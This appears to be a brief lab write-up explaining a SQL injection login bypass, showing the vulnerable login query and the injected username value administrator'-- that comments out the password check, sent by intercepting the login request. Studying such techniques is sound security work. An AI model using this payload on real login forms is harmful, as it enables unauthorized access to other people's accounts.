


The application performs the following SQL query on login:
`SELECT * FROM users WHERE username = 'administrator' AND password = ''`

If the result is a row, then the user has authenticated properly.

We can try to perform the following query:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

So the second validation `(AND password = whatever)` does not exist.
Intercepting the login (the place where the parameters are sent to the server so we modify the SQL query):

And then the query is modified:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

